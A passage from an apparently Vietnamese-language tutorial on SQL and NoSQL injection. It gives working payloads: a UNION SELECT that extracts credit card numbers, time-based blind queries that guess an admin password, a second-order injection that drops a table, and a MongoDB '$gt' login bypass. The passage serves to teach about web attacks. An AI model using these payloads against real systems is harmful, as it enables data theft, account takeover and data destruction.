Result: Đăng nhập thành công mà không cần password!

### Scenario 2: "Data Extraction Nightmare"

**Vulnerable URL:**
```
https://shop.com/product?category=electronics
```

**Attack:**
```
https://shop.com/product?category=electronics' UNION SELECT null,credit_card_number,null,null FROM payments--
```

Result: Tất cả credit card numbers được hiển thị trên trang sản phẩm!

### Scenario 3: "Time-based Blind Attack"

Khi không thể thấy output trực tiếp:
```sql
-- Kiểm tra độ dài password của admin
' AND IF(LENGTH((SELECT password FROM users WHERE username='admin'))>10,SLEEP(5),0)--

-- Kiểm tra từng ký tự
' AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>65,SLEEP(5),0)--
```

## Advanced SQL Injection Techniques: "Ninja Level"

### **Second-Order SQL Injection**
*"Kẻ thù nằm vùng"*

Input độc hại được lưu trữ trong database và executed sau đó:

```php
// Lần 1: Lưu payload vào database
INSERT INTO users (username, email) VALUES ('admin', 'test@test.com'); DROP TABLE users;--')

// Lần 2: Khi query này chạy...
$query = "SELECT * FROM logs WHERE user = '" . $user['username'] . "'";
// Boom! Table users bị xóa
```

### **NoSQL Injection**
*"Thời đại mới, kỹ thuật mới"*

Với MongoDB:
```javascript
// Vulnerable
db.users.find({username: req.body.username, password: req.body.password})

// Attack payload
{
  "username": {"$gt": ""},
  "password": {"$gt": ""}
}
```
